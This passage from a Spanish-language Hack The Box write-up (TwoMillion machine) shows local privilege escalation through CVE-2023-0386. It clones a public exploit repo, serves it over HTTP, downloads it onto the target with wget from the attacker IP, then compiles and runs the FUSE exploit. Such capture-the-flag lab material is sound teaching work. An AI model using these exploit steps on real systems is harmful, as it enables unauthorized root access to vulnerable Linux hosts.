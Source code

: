 ```bash
git clone https://github.com/puckiestyle/CVE-2023-0386.git
cd CVE-2023-0386
tar -czvf exploit.tar.gz .
python -m http.server 80
```

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-26.png)

Desde la máquina, creamos una carpeta en el directorio `/tmp/` y descargamos los ficheros para luego extraerlos:

```bash
mkdir /tmp/exploit/
cd /tmp/exploit/
wget 10.10.14.141/exploit.tar.gz
tar -xvf exploit.tar.gz
```

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-27.png)

Compilamos los binarios y ejecutamos el comando que nos indicaban en el repositorio para explotar la vulnerabilidad:

```bash
make all
./fuse ./ovlcap/lower ./gc
```
